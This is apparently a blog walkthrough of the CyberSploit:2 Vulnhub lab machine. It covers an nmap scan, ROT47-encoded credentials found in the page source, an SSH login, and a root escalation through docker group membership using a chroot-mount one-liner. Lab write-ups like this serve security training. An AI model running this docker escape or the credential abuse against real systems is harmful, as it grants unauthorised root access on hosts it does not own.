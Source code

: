 ```yaml
---
date: 2020-07-30 10:18:54
layout: post
title: "Cybersploit 2 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:2 is a boot2root VM from Vulnhub. This is the second part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-2/mech.webp
optimized_image: /assets/img/uploads/cybersploit-2/mech-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 2, cybersploit 2 vulnhub, cybersploit 2 walkthrough, cybersploit 2 vulnhub walkthrough, cybersploit 2 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:2, a boot2root VM available on Vulnhub. This is the second part of the Vulnhub's CyberSploit Series and rated easy. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
192.168.1.8     cybersploit2.local
```

## Initial Enumeration and Shell

I started the enumeration by starting a port scan with Nmap, checking for open ports and default scripts.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit2.local 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit2.local (192.168.1.8)
Host is up (0.00036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 08:00:27:00:77:54 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

We have an ssh port open and an Apache 2.4.37 Web Server running on port 80. Looking at the port 80 on our web browser, we see some usernames and passwords along with their handles.

<center><br>
<img src="/assets/img/uploads/cybersploit-2/port80.png">
</center>

There is an entry on the 4th number which looks different from others. This is encrypted using some algorithm. Looking at the source code of the page, I found that it is encoded with ROT47.

<center><br>
<img src="/assets/img/uploads/cybersploit-2/source.png">
</center>

Next I went to CyberChef to decode the text and found a username <b>shailendra</b> and password <b>cybersploit1.</b>

<center><br>
<img src="/assets/img/uploads/cybersploit-2/cyberchef.png">
</center>

I used these credentials to login as user <b>shailendra</b> via ssh.

```r
root@kali:~# ssh shailendra@cybersploit2.local

The authenticity of host 'cybersploit2.local (192.168.1.8)' cant be established.
ECDSA key fingerprint is SHA256:uGYzWYklxeL1iDjLGh5cLrkGjTgqAJfxn3mkDaZ7C7M.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cybersploit2.local,192.168.1.8' (ECDSA) to the list of known hosts.
shailendra@cybersploit2.locals password: 
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$
```
## Root Flag

Inside the home directory of user shailendra, we have a file named <b>hint.txt.</b> This will have the hints for privilege escalation.

```r
[shailendra@localhost ~]$ ls
hint.txt

[shailendra@localhost ~]$ cat hint.txt
docker
```
We have docker as a hint. I saw the <b>id</b> of the user and found that we have <b>docker</b> installed and this user is added to the <b>docker group.</b>

```r
[shailendra@localhost ~]$ id

uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Looking at the <a href="https://gtfobins.github.io/gtfobins/docker/">GTFO Bins,</a> I found that we can exploit docker and mount the root directory on a docker container using the following command:

```r
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
df20fa9351a1: Pull complete 
Digest: sha256:185518070891758909c9f839cf4ca393ee977ac378609f700f60a771a2dfe321
Status: Downloaded newer image for alpine:latest
sh-4.4#
```

The exploit was successful and we are root! Now we can read our flag.

```r
sh-4.4# cat /root/flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/mattandersondesign">Matt Anderson.</a>
